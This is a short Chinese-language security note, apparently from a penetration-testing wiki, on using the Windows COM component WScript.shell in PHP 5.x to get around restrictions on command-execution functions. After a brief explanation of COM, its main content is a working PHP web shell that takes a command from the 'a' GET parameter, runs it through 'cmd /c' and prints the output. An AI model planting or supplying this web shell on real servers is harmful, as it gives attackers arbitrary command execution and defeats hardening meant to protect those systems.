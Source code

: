 ```yaml
---
title: "利用系统组件 window com 绕过"
id: zhfly3468
---
```


## 利用系统组件 window com 绕过

**1\. 利用条件**

*   Windows
*   php5.x（高版本扩展要自己添加）
*   支持COM组件

**2\. 基本原理**

COM组件它最早的设计意图是，跨语言实现程序组件的复用
COM组件由以Win 32动态连接库（DLL）或可执行文件（EXE）形式发布的可执行代码所组成。遵循COM规范编写出来的组件将能够满足对组件架构的所有要求。COM组件可以给应用程序、操作系统以及其他组件提供服务；自定义的COM组件可以在运行时刻同其他组件连接起来构成某个应用程序；COM组件可以动态的插入或卸出应用。

![image](../img/f4d90ad57567c7fdb61135764cf52a1d.png)

```
<?php
$command=$_GET['a'];
$wsh = new COM('WScript.shell'); // 生成一个COM对象 Shell.Application也能
$exec = $wsh->exec("cmd /c".$command); //调用对象方法来执行命令
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?> 
```

![image](../img/82fa05584b8930441cf076240ca30100.png)